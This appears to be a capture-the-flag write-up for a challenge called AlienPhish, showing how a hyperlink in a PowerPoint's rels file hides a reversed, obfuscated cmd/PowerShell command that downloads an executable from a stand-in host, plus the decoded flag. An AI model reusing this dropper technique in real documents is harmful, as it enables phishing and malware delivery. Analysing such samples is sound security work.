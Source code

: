 # AlienPhish 🎣
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

## **Solution**
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

![zip](images/zip.gif)

My first step was to open this ppt file using a zip archive. You can also use `binwalk` to extract the data if you are using any Linux based OS, but I will stick to `WinRar`.


![zip](images/S0.jpg)


As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


*Opening slide1.xml.rels file gives us:*

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

_We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :_

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

*We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.*

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag :** _CHTB{pH1sHiNg_w0_m4cr0s???}_
